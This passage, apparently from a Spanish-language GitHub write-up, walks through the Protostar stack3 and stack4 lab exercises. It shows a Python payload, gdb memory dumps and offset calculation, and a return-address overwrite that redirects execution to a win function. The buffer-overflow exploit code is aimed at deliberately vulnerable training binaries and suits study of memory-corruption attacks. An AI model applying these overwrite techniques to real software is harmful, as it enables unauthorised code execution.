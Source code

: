 ```python
import struct
payload = "A"*64
payload += struct.pack('I', 0x08048424)
print payload
```
```console
[user@protostar]-[/opt/protostar/bin]:$ python /tmp/exploit.py | ./stack3
calling function pointer, jumping to 0x08048424
code flow successfully changed
```
---------------------------------------------------------------------------

# Sobreescribir un puntero de instrucción 2 -> [stack4](https://exploit.education/protostar/stack-four/)

La teoría es la misma que con el caso anterior, solo que este es algo mas realista ya que el eip no esta pegado al final del buffer.

```console
[user@protostar]-[/opt/protostar/bin]:$ python -c "print('A'*64)" | ./stack4
[user@protostar]-[/opt/protostar/bin]:$ python -c "print('A'*76)" | ./stack4
Segmentation fault
```
Para ver lo que está pasando, vamos a hacer un patrón reconocible y pasarlo por gdb.

```console
[user@protostar]-[/opt/protostar/bin]:$ python -c "print('A'*64 + 'BBBBCCCCDDDDEEEEFFFFGGGG')" > /tmp/pattern
[user@protostar]-[/opt/protostar/bin]:$ gdb ./stack4
(gdb) b *0x0804841d -> Ponemos el breakpoint en la instrucción "leave"
(gdb) run < /tmp/pattern
Breakpoint alcazado!
(gdb) x/40wx $esp
0xbffff650:	0xbffff660	0xb7ec6165	0xbffff668	0xb7eada75
0xbffff660:	0x41414141	0x41414141	0x41414141	0x41414141
0xbffff670:	0x41414141	0x41414141	0x41414141	0x41414141
0xbffff680:	0x41414141	0x41414141	0x41414141	0x41414141
0xbffff690:	0x41414141	0x41414141	0x41414141	0x41414141
0xbffff6a0:	0x42424242	0x43434343	0x44444444	0x45454545
0xbffff6b0:	0x46464646	0x47474747	0xbffff700	0xb7fe1848
Program received signal SIGSEGV, Segmentation fault.
0x45454545 in ?? ()
(gdb) p 0xbffff6ac - 0xbffff660
$1 = 76 -> Justo donde antes nos daba SEGFAULT
```
Ahora la instrucción win es 0x080483f4 o "\xf4\x83\x04\x08"

```console
[user@protostar]-[/opt/protostar/bin]:$ python -c "print('A'*76 + '\xf4\x83\x04\x08')" | ./stack4
code flow successfully changed
Segmentation fault -> Aunque se queje nos ha ejecutado la win (el mensaje de antes)
```
```console
(gdb) disas win
0x080483fa <win+6>:	mov    DWORD PTR [esp],0x80484e0
0x08048401 <win+13>:	call   0x804832c <puts@plt>
...
(gdb) x/s 0x80484e0
0x80484e0:	 "code flow successfully changed"
```
---------------------------------------------------------------------------
